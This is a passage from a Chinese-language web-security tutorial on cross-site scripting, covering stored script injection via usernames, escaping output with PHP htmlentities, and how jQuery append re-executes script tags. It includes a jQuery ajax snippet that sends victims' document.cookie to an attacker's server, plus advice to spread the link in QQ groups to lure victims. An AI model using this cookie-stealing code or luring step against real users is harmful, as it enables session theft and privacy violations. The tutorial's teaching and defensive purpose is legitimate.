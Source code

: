 如果你将自己的用户名设定为这种执行脚本的方式，再让别人去访问你的连接的话，就可以达到在他人web环境中，执行自己脚本的效果了。我们还可以使用ajax，将其他用户在当前域名下的cookie获取并发送到自己的服务器上。这样就可以获取他人信息了。比如，刚刚咱们使用的不是alert而是，如下的代码：

```
$.ajax({
    url: '自己的服务器',
    dataType: 'jsonp',
    data: {'盗取的用户cookie': document.cookie}
});
```
再在各个QQ群中，散播自己的空间，引诱别人来访问。就可以拿到用户在这个域名下的cookie或者其他隐私了

#### 1.2 如何防范？

 目前来讲，最简单的办法防治办法，还是将前端输出数据都进行转义最为稳妥。比如，按照刚刚我们那个例子来说，其本质是，浏览器遇到script标签的话，则会执行其中的脚本。但是如果我们将script标签的进行转义，则浏览器便不会认为其是一个标签，但是显示的时候，还是会按照正常的方式去显示，代码如下，效果如图1.2.1
 
 ```
 <?php
    $username="<script>alert('侯医生');</script>";
?>
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
    </head>
    <body>
        <!--我们将输出的后端变量，转义之后再输出，则可以避免被注入代码-->
        <div>
            用户名：<?php echo htmlentities($username);?>
        </div>
        <div>
            第一条状态：侯医生的状态1
        </div>
        <div>
            第二条状态：侯医生的状态2
        </div>
        <div>
            第三条状态：侯医生的状态3
        </div>
    </body>
</html>
 ```
 虽然显示出来是有script标签的，但是实际上，script标签的左右尖括号(><)，均被转义为html字符实体，所以，便不会被当做标签来解析的，但是实际显示的时候，这两个尖括号，还是可以正常展示的。

#### 1.3 升级攻击

上一小节我们防住了script标签的左右尖括号，蓝鹅，聪明的黑客们还是想出了好办法去破解，我们知道，直接给innerHTML赋值一段js，是无法被执行的。比如，
```
$('div').innerHTML = '<script>alert("okok");</script>';
```
但是，jquery的append可以做到，究其原因，就是因为jquery会在将append元素变为fragment的时候，找到其中的script标签，再使用eval执行一遍。jquery的append使用的方式也是innerHTML(如图1.3.1.1)。而innerHTML是会将unicode码转换为字符实体的。
